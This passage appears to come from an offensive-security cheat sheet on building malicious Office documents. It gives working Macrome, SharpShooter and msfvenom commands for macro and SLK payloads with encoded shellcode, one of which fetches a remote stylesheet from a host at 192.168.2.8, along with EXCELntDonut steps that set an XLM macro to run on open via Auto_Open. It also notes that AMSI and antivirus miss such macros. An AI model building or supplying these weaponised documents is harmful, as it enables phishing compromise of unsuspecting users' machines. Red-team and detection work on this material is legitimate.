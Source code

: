 ```ps1

# For VBA Macro
Macrome build --decoy-document decoy_document.xls --payload-type Macro --payload macro_example.txt --output-file-name xor_obfuscated_macro_doc.xls --password VelvetSweatshop
```

When using Macrome build mode, the --password flag may be used to encrypt the generated document using XOR Obfuscation. If the default password of **VelvetSweatshop** is used when building the document, all versions of Excel will automatically decrypt the document without any additional user input. This password can only be set in Excel 2003.


### XLM Excel 4.0 - SharpShooter

* https://github.com/mdsecactivebreach/SharpShooter

```powershell
# Options
-rawscfile <path>  Path to raw shellcode file for stageless payloads
--scfile <path>    Path to shellcode file as CSharp byte array
python SharpShooter.py --payload slk --rawscfile shellcode.bin --output test

# Creation of a VBA Macro
# creates a VBA macro file that uses the the XMLDOM COM interface to retrieve and execute a hosted stylesheet.
SharpShooter.py --stageless --dotnetver 2 --payload macro --output foo --rawscfile ./x86payload.bin --com xslremote --awlurl http://192.168.2.8:8080/foo.xsl

# Creation of an Excel 4.0 SLK Macro Enabled Document
~# /!\ The shellcode cannot contain null bytes
msfvenom -p generic/custom PAYLOADFILE=./payload.bin -a x86 --platform windows -e x86/shikata_ga_nai -f raw -o shellcode-encoded.bin -b '\x00'
SharpShooter.py --payload slk --output foo --rawscfile ~./x86payload.bin --smuggle --template mcafee

msfvenom -p generic/custom PAYLOADFILE=payload86.bin -a x86 --platform windows -e x86/shikata_ga_nai -f raw -o /tmp/shellcode-86.bin -b '\x00'
SharpShooter.py --payload slk --output foo --rawscfile /tmp/shellcode-86.bin --smuggle --template mcafee
```


### XLM Excel 4.0 - EXCELntDonut

* XLM (Excel 4.0) macros pre-date VBA and can be delivered in .xls files.
* AMSI has no visibility into XLM macros (for now)
* Anti-virus struggles with XLM (for now)
* XLM macros can access the Win32 API (virtualalloc, createthread, ...)

1. Open an Excel Workbook.
2. Right click on "Sheet 1" and click "Insert...". Select "MS Excel 4.0 Macro".
3. Open your EXCELntDonut output file in a text editor and copy everything.
4. Paste the EXCELntDonut output text in Column A of your XLM Macro sheet.
5. At this point, everything is in column A. To fix that, we'll use the "Text-to-Columns"/"Convert" tool under the "Data" tab.
6. Highlight column A and open the "Text-to-Columns"  tool. Select "Delimited" and then "Semicolon" on the next screen. Select "Finished".
7. Right-click on cell A1* and select "Run". This will execute your payload to make sure it works.
8. To enable auto-execution, we need to rename cell A1* to "Auto_Open". You can do this by clicking into cell A1 and then clicking into the box that says "A1"* just above Column A. Change the text from "A1"* to "Auto_Open". Save the file and verify that auto-execution works.

